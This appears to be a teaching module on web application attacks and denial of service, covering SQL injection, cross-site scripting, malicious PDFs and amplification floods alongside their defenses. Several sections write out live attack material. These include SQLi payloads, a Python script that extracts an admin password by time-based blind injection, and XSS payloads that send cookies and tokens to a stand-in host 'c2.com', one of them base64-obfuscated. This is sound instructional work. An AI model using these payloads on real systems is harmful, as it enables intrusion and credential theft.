


# Module 6: Web Application Attacks & Network Denial of Service

## 6.1 SQL Injection (SQLi) Mechanics & Defenses

**SQL Injection (SQLi)** occurs when untrusted user input is directly concatenated into a dynamic database query string without proper sanitization, validation, or parameterization, allowing an attacker to manipulate the underlying database parser.

```mermaid
graph TD
    subgraph SQLi_Pipeline["SQL Injection Query Construction Breakdown"]
        direction TB
        
        Code["Developer Dynamic Query Construction:<br/>query = 'SELECT * FROM users WHERE user="' + input_user + '" AND pass="' + input_pass + '";'"]
        Input["Attacker Input:<br/>input_user = admin' -- <br/>input_pass = irrelevant"]
        Result["Resulting Query Evaluated by SQL Engine:<br/>SELECT * FROM users WHERE user='admin' -- ' AND pass='irrelevant';"]
        Bypass["Parser Interpretation:<br/>1. Compares user == 'admin'<br/>2. Treats '--' as comment delimiter<br/>3. Ignores remaining password verification entirely!"]
        
        Code --> Input --> Result --> Bypass
    end
    
    style SQLi_Pipeline fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style Input fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style Bypass fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

### Classification of SQLi Attacks
1. **In-Band (Classic) SQLi**:
   - The attacker uses the same channel to launch the attack and extract results.
   - *Error-Based SQLi*: Intentionally triggers database runtime errors (e.g., divide by zero, type conversion failure) that output sensitive schema or table names in the HTTP response.
   - *UNION-Based SQLi*: Uses the `UNION` operator to append the results of an attacker-crafted query to the original query results:
     ```sql
     ' UNION SELECT null, username, password FROM users --
     ```
2. **Inferential (Blind) SQLi**:
   - The application does not return database error messages or query results directly on the web page.
   - *Boolean-Based Blind*: Injects boolean propositions (e.g., `' AND 1=1 --` vs. `' AND 1=2 --`). Observes differences in page rendering, response lengths, or HTTP status codes to reconstruct data bit-by-bit.
   - *Time-Based Blind*: Injects database delay functions (e.g., `WAITFOR DELAY '0:0:5'` in SQL Server or `pg_sleep(5)` in PostgreSQL). If the page response delays by 5 seconds, the evaluated condition is true.
3. **Out-of-Band SQLi**:
   - Used when blind injection is unviable. The injected query commands the database server to issue external DNS lookups or HTTP requests containing exfiltrated data back to an attacker-controlled server.

### Definitive Defensive Strategy: Prepared Statements
Parameterized queries (Prepared Statements) separate SQL code logic from data literals. The database engine compiles the query template *before* inserting user input:
```python
# SECURE: Prepared Statement with Parameter Binding
cursor.execute("SELECT * FROM users WHERE user = %s AND pass = %s", (input_user, input_pass))
```
Even if `input_user` contains `' OR '1'='1`, the database treats the entire string purely as a literal value for `user`, preventing query structure alteration.

---

## 6.2 Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** is a client-side code injection vulnerability occurring when a web application incorporates untrusted user input into its rendered HTML output without contextual sanitization or encoding, causing the victim's web browser to execute malicious JavaScript.

```mermaid
graph TD
    subgraph XSS_Classification["Taxonomy of Cross-Site Scripting (XSS)"]
        direction TB
        
        subgraph Stored["1. Stored (Persistent) XSS"]
            S_Attacker["Attacker submits payload:<br/><script>fetch('http://c2.com?c='+document.cookie)</script>"]
            S_DB[("Database<br/>(Stores payload in comments/profile)")]
            S_Victim["Victim views page<br/>(Payload fetched from DB & executed)"]
            S_Attacker --> S_DB --> S_Victim
        end
        
        subgraph Reflected["2. Reflected (Non-Persistent) XSS"]
            R_Link["Phishing Link with injected parameter:<br/>http://site.com/search?q=<script>..."]
            R_Server["Web Server reflects query verbatim in HTML response"]
            R_Victim["Victim clicks link; script executes in browser"]
            R_Link --> R_Server --> R_Victim
        end
        
        subgraph DOM["3. DOM-Based XSS"]
            D_Client["Vulnerable Client-Side JavaScript:<br/>document.getElementById('msg').innerHTML = location.hash;"]
            D_Exec["Executed entirely in client DOM without server interaction!"]
            D_Client --> D_Exec
        end
    end
    
    style XSS_Classification fill:#fcfcfc,stroke:#34495e,stroke-width:2px;
    style Stored fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Reflected fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style DOM fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
```



### Impact & Defenses
- **Exploitation Impact**: Session hijacking (exfiltrating `document.cookie`), credential harvesting, keylogging, keystroke capture, and client-side malware delivery.
- **Defensive Measures**:
  - *Contextual Output Encoding*: HTML entity encoding, JavaScript encoding, attribute encoding.
  - *`HttpOnly` Cookie Flags*: Prevents client-side JavaScript from accessing session cookies via `document.cookie`.
  - *Content Security Policy (CSP)*: HTTP response headers (`Content-Security-Policy: default-src 'self'`) restricting which domains can serve executable scripts and prohibiting inline script execution.

---

## 6.3 Malicious PDF Document Exploitation

Adobe Portable Document Format (PDF) files are not static electronic paper; they are complex document containers supporting embedded fonts, vector graphics, form scripts, embedded Flash/3D models, and dynamic JavaScript execution.



### PDF Exploitation Mechanisms
1. **The `/OpenAction` & `/AA` (Additional Actions) Dictionaries**:
   - Instructs the PDF reader application to automatically execute embedded scripts or external launch commands the instant the document is opened, without requiring user consent.
2. **Stream Obfuscation (`/FlateDecode`, `/ASCIIHexDecode`)**:
   - Attackers compress and encode malicious shellcode or heap-spray scripts within stream objects, defeating basic static keyword scanning.
3. **Heap Spraying via PDF JavaScript**:
   - Embedded JavaScript allocates thousands of memory chunks containing NOP sleds and shellcode across the PDF reader's heap address space.
   - When a subsequent memory corruption vulnerability (such as a use-after-free or buffer overflow in a font rendering engine) is triggered, jumping to an arbitrary heap address reliably hits the sprayed shellcode.

---

## 6.4 Denial of Service (DoS) & Network Amplification Attacks

**Denial of Service (DoS)** attacks aim to render a computing system, application, or network link inaccessible to legitimate users by consuming critical resources (CPU cycles, memory pools, connection state tables, or network link bandwidth).



### Primary DoS / DDoS Mechanisms
1. **TCP SYN Flood**:
   - Exploits the TCP 3-way handshake (`SYN` $\rightarrow$ `SYN-ACK` $\rightarrow$ `ACK`).
   - The attacker floods the target with `SYN` packets from spoofed IP addresses.
   - The server allocates a Transmission Control Block (TCB) in its **SYN backlog queue** and responds with `SYN-ACK`. Because the source IP is spoofed, the final `ACK` never arrives.
   - The server's backlog queue fills to capacity, rejecting legitimate incoming connection requests.
   - *Mitigation*: **SYN Cookies** (encodes connection state in the initial TCP sequence number, eliminating the need to allocate memory until the final `ACK` is received).
2. **UDP Reflection & Amplification Attacks**:
   - Exploits connectionless UDP protocols where source IPs can be trivially spoofed.
   - *DNS Amplification*: Requests DNS `ANY` records yielding amplification factors of $20\times$ to $50\times$.
   - *NTP Amplification*: Exploits the legacy `monlist` command on NTP servers, returning the addresses of the last 600 clients that queried the server, yielding amplification factors up to $556\times$.
   - *Memcached Amplification*: Unprotected Memcached servers over UDP yielded amplification factors exceeding $50,000\times$.

---
---

## 6.5 Web Application Security Laboratory: Advanced Payloads & Defense

### 1. SQL Injection Payload Matrix & Obfuscation
Adversaries bypass simple Web Application Firewall (WAF) regex signatures using advanced SQL obfuscation:
- **Whitespace Neutralization**:
  ```sql
  -- Replacing space with inline comments or URL encoding:
  SELECT/**/username/**/FROM/**/users/**/WHERE/**/id=1;
  SELECT%20username%20FROM%20users;
  ```
- **Time-Based Blind Exfiltration Algorithm**:
  Attackers automate database extraction using automated Python scripts implementing binary search:
  ```python
  import requests, time

  target = "http://victim.com/profile?id="
  extracted = ""

  for pos in range(1, 32):
      low, high = 32, 126
      while low <= high:
          mid = (low + high) // 2
          payload = f"1 AND IF(ASCII(SUBSTRING((SELECT password FROM users WHERE user='admin'),{pos},1))>{mid}, sleep(3), 0)"
          start = time.time()
          requests.get(target + payload)
          if time.time() - start >= 3:
              low = mid + 1
          else:
              high = mid - 1
      extracted += chr(low)
  print(f"[+] Recovered Password: {extracted}")
  ```

### 2. Cross-Site Scripting (XSS) Filter Evasion
When web applications implement naive blacklist filters (e.g., stripping `<script>` tags):
- **Case Inversion**: `<sCrIpt>alert(1)</ScRipt>`
- **Non-Script Event Handlers**:
  ```html
  
  <svg onload="fetch('http://c2.com?k='+localStorage.getItem('token'))">
  <body onresize="alert(1)">
  <input type="text" autofocus onfocus="alert(1)">
  ```
- **JavaScript URI Schemes**:
  ```html
  <a href="javascript:eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9jMi5jb20/Yz0iK2RvY3VtZW50LmNvb2tpZQ=='))">Click to Claim Prize</a>
  ```
